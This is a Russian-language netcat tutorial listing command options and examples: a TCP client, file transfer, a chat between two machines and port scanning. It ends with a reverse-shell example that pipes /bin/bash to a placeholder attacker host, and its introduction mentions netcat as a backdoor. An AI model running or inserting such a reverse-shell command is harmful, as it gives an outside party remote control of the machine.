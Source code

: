 nc(netcat) - это «швейцарский нож» для работы с TCP/UDP‐соединениями: чтение и запись в порты, простейший файл-шенкер, чат, сканер портов, инструмент для отладки и даже бэкдор.  

  
Общий синтаксис  

   `nc [опции] [хост] [порт]`


Основные режимы и опции  

   - -l            : слушать входящие (listen-mode)  
   - -p <порт>     : указать порт при прослушивании  
   - -u            : использовать UDP вместо TCP  
   - -v            : подробный вывод (verbose)  
   - -vv           : ещё более подробный  
   - -n            : не резолвить DNS (только цифры)  
   - -z            : «сканирование» портов (без обмена данными)  
   - -w <сек>      : таймаут на установку соединения/последний байт  
   - -e <программа>: при подключении запустить stdin/stdout выбранной программы  
   - -k            : в режиме -l не завершаться после первого клиента  
   - -N            : сразу «прибить» соединение после EOF  

  

Практические примеры  

   Простейший TCP-клиент  

     nc example.com 80  
     (можно вручную шлёпнуть HTTP-запрос:  
      GET / HTTP/1.0⏎⏎)  

  
   Файлообмен  

     На «сервере» (принимающем):  
       nc -l -p 1234 > incoming.bin  
     На «клиенте» (отправляющем):  
       nc server.example.com 1234 < file.bin  


   Чат между двумя машинами  

     Сторона A: nc -l -p 5555  
     Сторона B: nc A_IP 5555  
     → Печатайте строки, они «уйдут» на другой конец.  

  
   Сканирование портов  

     nc -zv host.example.com 20-1024  
     (флаг -z: без передачи данных, просто проверить открытость)  


   Реверс-шелл (в образовательных целях!)  

     На атакующем (слушаем):  
       nc -l -p 4444  
     На «жертве» (подключаемся и связываем stdin/stdout):  
       nc attacker.ip 4444 -e /bin/bash  